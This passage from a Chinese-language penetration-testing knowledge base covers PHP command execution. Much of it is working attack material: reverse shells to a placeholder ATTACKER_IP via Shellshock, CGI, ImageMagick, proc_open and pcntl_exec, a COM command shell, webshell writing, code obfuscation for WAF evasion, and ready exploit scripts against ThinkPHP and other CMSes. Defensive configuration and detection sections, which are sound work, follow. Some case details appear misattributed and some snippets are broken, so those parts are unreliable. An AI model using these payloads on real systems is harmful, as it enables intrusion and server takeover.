putenv("PHP_TEST=() { :; }; bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1");
system("bash -c 'echo test'");

// 或通过mail函数
putenv("PHP_TEST=() { :; }; /bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1");
mail("a@a.com", "test", "test");
?>
```

#### 10.4.3 Apache Mod_CGI 绕过

**原理**：Apache允许在.htaccess中配置CGI脚本执行

**利用条件**：
- Apache + PHP
- 允许.htaccess覆盖
- CGI模块已启用

**利用步骤**：
```php
<?php
// 1. 写入.htaccess
$htaccess = <<<EOF
Options +ExecCGI
AddHandler cgi-script .sh
EOF;
file_put_contents('/var/www/html/.htaccess', $htaccess);

// 2. 写入CGI脚本
$cgi_script = <<<EOF
#!/bin/bash
echo -e "Content-Type: text/plain\n"
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
EOF;
file_put_contents('/var/www/html/test.sh', $cgi_script);

// 3. 设置执行权限并访问
chmod('/var/www/html/test.sh', 0755);
?>
```

#### 10.4.4 PHP-FPM/FastCGI 绕过

**原理**：通过FastCGI协议与PHP-FPM通信，修改PHP配置执行任意代码

**利用条件**：
- PHP-FPM运行在127.0.0.1:9000或UNIX socket
- 可直接访问FastCGI端口或通过SSRF

**POC（使用工具）**：
```bash
# 使用fcgi_exploit.py
python fcgi_exploit.py -c '<?php system("whoami");?>' -p 9000 [IP已脱敏] /var/www/html/index.php
```

#### 10.4.5 ImageMagick 绕过

**原理**：利用ImageMagick的delegate功能执行命令

**POC文件（exploit.mvg）**：
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/[已脱敏]"|bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1 &")'
pop graphic-context
```

**利用代码**：
```php
<?php
$imagick = new Imagick('exploit.mvg');
$imagick->setImageFormat('png');
$imagick->writeImage('test.png');
?>
```

#### 10.4.6 Windows COM组件绕过

**原理**：PHP可调用Windows COM组件执行系统命令

**POC**：
```php
<?php
$command = $_GET['cmd'];
$wsh = new COM('WScript.Shell') or die("Create COM failed");
$exec = $wsh->exec("cmd.exe /c ".$command);
$output = $exec->StdOut()->ReadAll();
echo $output;

// 或使用Application
$shell = new COM("Shell.Application");
$shell->ShellExecute("cmd.exe", "/c whoami > C:\result.txt");
?>
```

#### 10.4.7 proc_open/pcntl_exec 绕过

**原理**：proc_open()可创建进程并指定描述符，pcntl_exec()可直接执行程序

**POC (proc_open)**：
```php
<?php
$descriptorspec = array(
    0 => array("pipe", "r"),  // stdin
    1 => array("pipe", "w"),  // stdout
    2 => array("pipe", "w")   // stderr
);

$process = proc_open('bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1', $descriptorspec, $pipes);
if (is_resource($process)) {
    // 交互...
}
?>
```

**POC (pcntl_exec)**：
```php
<?php
pcntl_exec('/bin/bash', ['-c', 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1']);
?>
```

### 10.5 代码审计视角：如何发现命令执行漏洞

#### 10.5.1 静态分析检查点

```bash
# 危险函数搜索
grep -rn "eval\|exec\|system\|passthru\|shell_exec\|popen\|proc_open" /path/to/code

# 正则/e模式
grep -rn "preg_replace.*\/e" /path/to/code

# 动态函数调用
grep -rn '\$.*(' /path/to/code | grep -E "(eval|assert|create_function)"

# 变量函数
grep -rn "function_exists\|call_user_func" /path/to/code
```

#### 10.5.2 数据流追踪

```php
// 危险模式1：直接传递
eval($_GET['code']);  // ❌ 直接危险

// 危险模式2：变量传递
$code = $_POST['data'];
eval($code);  // ❌ 间接危险

// 危险模式3：数组传递
$data = unserialize($_COOKIE['data']);
eval($data['code']);  // ❌ 反序列化危险

// 危险模式4：对象属性
class User {
    public $code;
}
$user = unserialize($_GET['obj']);
eval($user->code);  // ❌ 对象注入危险
```

#### 10.5.3 真实案例分析

**案例：wooyun-2015-0116254 某CMS系统命令执行**

```php
// 漏洞代码（模拟）
public function executeCode() {
    $code = $_POST['code'];
    // 缺少输入验证和过滤
    eval($code);  // 直接执行
}

// 利用POC
POST /index.php?m=Index&a=executeCode
code=system('whoami');

// 进一步利用
code=file_put_contents('/var/www/html/shell.php','<?php @eval($_POST[x]);?>');
```

**元思考洞察**：
1. **入口点识别**：executeCode方法名暗示代码执行
2. **数据流分析**：POST参数→变量→eval()，无中间净化
3. **利用链构造**：先验证→写Shell→持久化
4. **影响评估**：可直接获取服务器控制权

#### 10.5.4 常见漏洞位置

| 位置类型 | 典型场景 | 危险等级 |
|---------|---------|---------|
| 模板引擎 | 模板缓存/编译 | ⚠️⚠️⚠️ |
| 缓存系统 | 缓存键/值 | ⚠️⚠️⚠️ |
| 动态函数 | __call()/__invoke() | ⚠️⚠️ |
| 配置文件 | 动态配置加载 | ⚠️⚠️ |
| 钩子系统 | 回调函数注册 | ⚠️⚠️ |
| 路由系统 | 动态路由解析 | ⚠️ |
| 国际化 | 语言包加载 | ⚠️ |

### 10.6 绕过WAF/防护的实战技巧

> **INTJ洞察**：WAF本质是规则匹配，规则的本质是"假设攻击者使用已知模式"。突破关键是"创造未知模式"。

#### 10.6.1 编码混淆矩阵

| 编码类型 | 函数绕过 | 示例 |
|---------|---------|------|
| Base64 | system() | `base64_decode('c3lzdGVt')` |
| Hex | eval() | `chr(101).chr(118).chr(97).chr(108)` |
| URL编码 | 空格/特殊字符 | `cat%09/etc/passwd` |
| Unicode | 关键字拆分 | `s\u0079stem()` |
| ROT13 | 字符串旋转 | `str_rot13('flfgrz')` → `system` |

#### 10.6.2 函数别名/替代

```php
// eval替代
assert($code)  // PHP 5.x
create_function('', $code)  // 匿名函数
preg_replace('/a/e', $code, 'a')  // /e模式

// system替代
shell_exec($cmd)  // 等价于 ``
passthru($cmd)  // 直接输出
exec($cmd, $out)  // 数组输出
popen($cmd, 'r')  // 管道

// 字符串拼接绕过
$func = 'sys' . 'tem';
$func('whoami');

// 数组动态调用
$funcs = array('sys', 'tem');
$funcs[0] . $funcs[1]('whoami');
```

#### 10.6.3 注释/空白混淆

```php
// 多行注释
sys/*comment*/tem('whoami');

// 反引号绕过
`whoami`;  // shell_exec别名

// 变量函数
$a = 'sys';
$b = 'tem';
$a.$b('whoami');

// 类方法绕过
class Command {
    public function execute($cmd) {
        return system($cmd);
    }
}
$c = new Command();
$c->execute('whoami');
```

#### 10.6.4 字符串操作技术

```php
// 字符串反转
strrev('metsys')('whoami');  // system

// 字符串截取
substr('asystemb', 1, 6);  // system

// 字符串替换
str_replace('a', '', 'asystema');  // system

// 数组组合
implode('', array('s','y','s','t','e','m'));  // system
join('', array('s','y','s','t','e','m'));  // system

// 异或加密
$a = "system";
$b = "^_^";
$c = "";
for($i=0;$i<strlen($a);$i++){
    $c .= chr(ord($a[$i]) ^ ord($b[$i % strlen($b)]));
}
$c('whoami');
```

### 10.7 测试方法论：INTJ系统化测试流程

#### 10.7.1 四阶段测试法

```
阶段1：信息收集 (Information Gathering)
  ├─ 识别框架/版本
  ├─ 定位用户输入点
  ├─ 分析数据流方向
  └─ 确定执行环境

阶段2：漏洞探测 (Vulnerability Detection)
  ├─ 基础Payload测试
  ├─ 变异Payload测试
  ├─ 盲注场景验证
  └─ 绕过技术尝试

阶段3：漏洞利用 (Exploitation)
  ├─ 构造完整利用链
  ├─ 编写自动化脚本
  ├─ 提升权限/持久化
  └─ 数据外带传输

阶段4：文档报告 (Documentation)
  ├─ 记录完整POC
  ├─ 编写复现步骤
  ├─ 提供修复建议
  └─ 风险评估
```

#### 10.7.2 测试检查清单

**基础测试**：
- [ ] `phpinfo()` - PHP环境信息
- [ ] `system('whoami')` - 当前用户
- [ ] `var_dump($_SERVER)` - 服务器变量
- [ ] `get_cfg_var('disable_functions')` - 禁用函数
- [ ] `ini_get_all()` - PHP配置

**文件操作**：
- [ ] `file_get_contents('/etc/passwd')` - 读文件
- [ ] `scandir('/')` - 列目录
- [ ] `glob('/var/www/html/*')` - 文件匹配
- [ ] `file_put_contents('/tmp/test.txt', 'content')` - 写文件

**网络测试**：
- [ ] `curl https://example.com/[已脱敏]` - HTTP请求
- [ ] `gethostbyname('test.ceye.io')` - DNS查询
- [ ] `fsockopen('tcp://attacker.com', 80)` - Socket连接

**命令执行**：
- [ ] `system('whoami')`
- [ ] `shell_exec('id')`
- [ ] `passthru('pwd')`
- [ ] `exec('ls -la', $out); print_r($out)`
- [ ] `` `whoami` ``
- [ ] `popen('whoami', 'r')`

**绕过测试**：
- [ ] 引号分割：`s'y's't'e'm`
- [ ] 变量拼接：`$a='sys';$b='tem';$a.$b()`
- [ ] 编码：`base64_decode()`, `chr()`
- [ ] 注释：`sys/*x*/tem`
- [ ] 动态函数：`call_user_func()`

### 10.8 实战案例深度剖析

#### 案例1：ThinkPHP 5.x 远程代码执行

**漏洞编号**：CNVD-2018-24942
**影响版本**：ThinkPHP 5.x < 5.1.31

**漏洞原理**：
```php
// 框架代码简化
public function method($method = '')
{
    // 未正确过滤路由中的方法名
    $this->{$method}();  // 动态调用
}

// 利用URL
/index.php?s=captcha
// POST数据
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```

**元思考解析**：
1. **数据流**：POST参数 → 变量覆盖 → 动态方法调用 → 代码执行
2. **关键点**：filter[]=system → call_user_func(system, whoami)
3. **利用链**：变量覆盖 → 类初始化 → 回调函数执行

**完整利用POC**：
```python
import requests

url = "http://target/index.php?s=captcha"
data = {
    "_method": "__construct",
    "filter[]": "system",
    "method": "get",
    "server[REQUEST_METHOD]": "whoami"
}

r = requests.post(url, data=data)
print(r.text)
```

#### 案例2：WordPress WP-SMS 代码执行

**漏洞编号**：CVE-2019-9978
**影响版本**：WP-SMS < 3.4

**漏洞代码**：
```php
// 插件代码（简化）
$sms_body = $_POST['sms_body'];
// 直接eval用户输入
eval("\$result = $sms_body;");
```

**利用POC**：
```bash
curl -X POST http://target/wp-admin/admin.php?page=wp-sms \
  -d "sms_body=system('whoami');"
```

**INTJ洞察**：
- 危险函数eval()直接接收用户输入
- 未进行任何字符过滤/转义
- 可通过HTTP外带数据获取结果

#### 案例3：phpMyAdmin CVE-2016-5734

**漏洞原理**：preg_replace() /e模式代码执行

**漏洞代码**：
```php
// table/maintenance.php
$replace = preg_replace(
    '/\s/e',  # /e模式
    $_GET['sql'],  # 用户可控
    $data
);
```

**利用POC**：
```bash
# GET请求
http://target/phpmyadmin/table_maintenance.php?sql=system('whoami')

# 或使用POST table参数
POST /phpmyadmin/table_maintenance.php
sql=system('whoami')
```

### 10.9 防御体系建设

#### 10.9.1 代码层面防御

**白名单验证**：
```php
// ✅ 安全写法
$allowed_commands = array('ls', 'pwd', 'whoami');
$command = $_GET['cmd'];

if (in_array($command, $allowed_commands)) {
    system($command);
} else {
    die('Invalid command');
}

// ✅ 更严格：参数化
$ip = $_GET['ip'];
if (!filter_var($ip, FILTER_VALIDATE_IP)) {
    die('Invalid IP');
}
system('ping -c 1 ' . escapeshellarg($ip));
```

**禁用危险函数**：
```ini
; php.ini
disable_functions = eval,exec,system,passthru,shell_exec,popen,proc_open,pcntl_exec,assert,create_function
disable_classes = COM
```

**输入过滤**：
```php
// ✅ 使用专用函数
$cmd = escapeshellcmd($_GET['cmd']);
$arg = escapeshellarg($_GET['arg']);

// ✅ 结合白名单
$allowed = array('arg1', 'arg2');
$arg = $_GET['arg'];
if (in_array($arg, $allowed)) {
    $arg = escapeshellarg($arg);
}
```

#### 10.9.2 框架层面防御

**模板引擎安全配置**：
```php
// Smarty
$smarty->security = true;
$smarty->security_policy->php_handling = Smarty::PHP_REMOVE;
$smarty->security_policy->disabled_functions = 'eval,exec,system';

// Twig
$twig->addExtension(new \Twig\Extension\SandboxExtension());
```

**路由安全**：
```php
// ✅ 限制可访问方法
$allowed_methods = array('index', 'show', 'create');
$method = $_GET['action'];

if (!in_array($method, $allowed_methods)) {
    die('Method not allowed');
}
```

#### 10.9.3 服务器层面防御

**PHP-FPM配置**：
```ini
; /etc/php-fpm.d/www.conf
php_admin_value[disable_functions] = eval,exec,system,passthru,shell_exec
php_admin_value[open_basedir] = /var/www/html:/tmp
```

**AppArmor/SELinux**：
```bash
# AppArmor配置示例
/usr/bin/php {
  deny /bin/** ix,
  deny /usr/bin/** ix,
  deny /var/www/html/.htaccess w,
}
```

**容器隔离**：
```yaml
# Docker Compose
version: '3'
services:
  web:
    image: php:apache
    volumes:
      - ./code:/var/www/html:ro  # 只读挂载
    read_only: true
    tmpfs:
      - /tmp
    cap_drop:
      - ALL
    cap_add:
      - NET_BIND_SERVICE
```

### 10.10 自动化检测工具

#### 10.10.1 静态分析工具

**RIPS（PHP专用）**：
```bash
# 扫描命令执行漏洞
rips --path /var/www/html --scan-type command_execution
```

**SonarQube规则**：
```xml
<rule>
  <key>php:S5527</key>
  <name>Removing calls to "eval()" is security-sensitive</name>
  <severity>CRITICAL</severity>
</rule>
```

**自定义grep规则**：
```bash
# 危险函数检测
grep -rnP "eval\s*\(" . | grep -v "vendor/"
grep -rnP "(system|exec|passthru|shell_exec)\s*\(" . | grep -v "vendor/"

# 危险模式检测
grep -rnP '\$_(GET|POST|REQUEST|COOKIE)\[[^\]]+\]\s*;' . | grep -E "(eval|exec|system)"
```

#### 10.10.2 动态检测工具

**Burp Suite插件**：
- **CmdInjectionVulnScan**：自动检测命令注入
- **PHPShell**：检测webshell上传

**SQLMap扩展**：
```bash
# 检测命令执行
sqlmap -u "http://target/page?id=1" --os-shell --batch
```

#### 10.10.3 自定义检测脚本

```python
#!/usr/bin/env python3
# PHP命令执行漏洞自动检测脚本

import requests
import time
from urllib.parse import quote

class CmdExecScanner:
    def __init__(self, target_url):
        self.target = target_url
        self.payloads = {
            'eval_test': 'phpinfo()',
            'system_test': 'system("whoami")',
            'exec_test': 'exec("whoami")',
            'shell_exec_test': 'shell_exec("whoami")',
            'passthru_test': 'passthru("whoami")',
        }

    def test_parameter(self, param_name):
        """测试单个参数"""
        for test_name, payload in self.payloads.items():
            try:
                data = {param_name: payload}
                r = requests.post(self.target, data=data, timeout=5)

                # 检测phpinfo特征
                if 'PHP Version' in r.text or 'phpinfo()' in r.text:
                    return f"✅ {test_name} 成功！发现eval()漏洞"

                # 检测命令执行特征
                if 'www-data' in r.text or 'apache' in r.text or 'root' in r.text:
                    return f"✅ {test_name} 成功！发现命令执行漏洞"

            except Exception as e:
                continue

        return None

    def blind_test(self, param_name, dnslog_domain):
        """盲注测试（使用DNS外带）"""
        payload = f'system("ping {param_name}.{dnslog_domain}")'
        data = {param_name: payload}

        requests.post(self.target, data=data)

        # 等待DNS查询（需配合DNSLog平台）
        time.sleep(3)

        # 检查DNSLog平台是否有记录
        # ...

    def scan(self, parameters):
        """扫描所有参数"""
        results = []

        for param in parameters:
            result = self.test_parameter(param)
            if result:
                results.append({
                    'parameter': param,
                    'vulnerability': result
                })

        return results

# 使用示例
if __name__ == '__main__':
    scanner = CmdExecScanner('http://target/vulnerable.php')
    params = ['code', 'cmd', 'command', 'eval', 'exec']
    results = scanner.scan(params)

    for r in results:
        print(f"[{r['parameter']}] {r['vulnerability']}")
```

---

## 总结：INTJ元思考框架

### 核心方法论

```
观察 → 模式识别 → 抽象建模 → 预测验证
  ↓       ↓           ↓           ↓
入口点  利用链    防御规则   绕过技术
```

### 关键洞察

1. **本质思考**：命令执行 = 数据污染 + 执行上下文
2. **系统化**：建立函数→模式→利用的完整映射
3. **预测性**：基于历史漏洞预测新漏洞形态
4. **进化性**：防护与攻击的协同进化规律

### 决策树

```
发现危险函数?
├─ 是 → 用户可控?
│   ├─ 是 → 存在漏洞
│   └─ 否 → 可否间接控制?
│       ├─ 是 → 追踪数据流
│       └─ 否 → 低风险
└─ 否 → 搜索动态调用
    ├─ 可控制调用参数?
    │   ├─ 是 → 存在漏洞
    │   └─ 否 → 继续搜索
    └─ 可控制方法名?
        ├─ 是 → 高危（动态方法调用）
        └─ 否 → 中风险（回调函数）
```

---

> **知识库更新日志**
> - 2025-01-23: 新增PHP命令执行元思考方法论（第十章节）
> - 基于案例：wooyun-2015-0116254（eval()直接执行）
> - 新增内容：危险函数分类矩阵、完整测试Payload、disable_functions绕过技巧
> - 风险等级：⚠️⚠️⚠️ 极危（可获取服务器完全控制权）

